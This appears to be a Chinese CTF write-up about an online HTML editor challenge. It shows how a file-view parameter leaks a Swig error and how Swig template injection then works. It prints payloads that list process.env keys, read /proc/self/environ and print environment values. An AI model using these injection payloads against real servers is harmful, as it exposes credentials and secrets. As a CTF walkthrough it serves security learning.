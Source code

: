 


![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/_88DZJUX$%5DIFGYAJMYPAP92.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201206213344.png)





## HTML 在线代码编辑器 



是一个类似如下的在线编写HTML的

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201207082253.png)





在主页存在自己编写的文件列表，查看的url为 `views?file=******.html`

输入`views?file=/` 报错



爆出`swig`

![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201207112119.png)



![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201207114501.png)



然后就是SWIG模板注入

利用`Object.keys` 获取`process.env`的键

```
{ {Object.keys(process.env)} }
```



也可读文件

```
{ % extends '/proc/self/environ' % }
```





![](https://blog-1300884845.cos.ap-shanghai.myqcloud.com/wenzhang/20201207114744.png)



再利用如下即可获取对应值

```
{ {process.env.键值} }
```
